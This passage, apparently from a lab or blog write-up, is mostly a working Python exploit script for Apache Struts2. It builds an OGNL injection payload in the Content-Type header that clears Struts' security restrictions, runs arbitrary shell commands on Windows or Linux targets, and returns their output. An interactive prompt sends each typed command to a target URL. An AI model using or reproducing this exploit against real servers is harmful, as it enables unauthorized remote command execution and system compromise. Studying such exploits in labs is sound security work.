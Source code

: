 ```
  payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
  payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
  payload += "(#ognlUtil.getExcludedPackageNames().clear())."
  payload += "(#ognlUtil.getExcludedClasses().clear())."
  payload += "(#context.setMemberAccess(#dm))))."
  payload += "(#cmd='%s')." % cmd
  payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
  payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
  payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
  payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
  payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
  payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
  payload += "(#ros.flush())}"

  # dee bug
  # print(payload)

  # For some reason it started working when piped through Burp proxy
  proxies={}
  if (PROXY != None):
    proxies = {
      'http': PROXY
    }

  # print("gonna run some struts now..")
  headerz = {'User-Agent': 'Mozilla/5.0', 'Content-Type': payload}
  try:
    r = requests.get(URL, headers=headerz, proxies=proxies)
    print("-------------------------------- DA REPLY --------")
    print(r.text)
  except requests.exceptions.ChunkedEncodingError, e:
    pass


# USE LIKE: python strutser.py http://vulnerable.legacy.sys/Monitoring.action http://127.0.0.1:8510
URL = sys.argv[1]
print("URL: " + URL)
proxy = None
if (len(sys.argv) > 2):
  proxy = sys.argv[2]
  print("PROXY URL: " + proxy)
while True:
  try:
    cmd = raw_input('>> ')
  except EOFError:
    break
  runStruts(cmd, URL, proxy)
```


Let's see it in action!
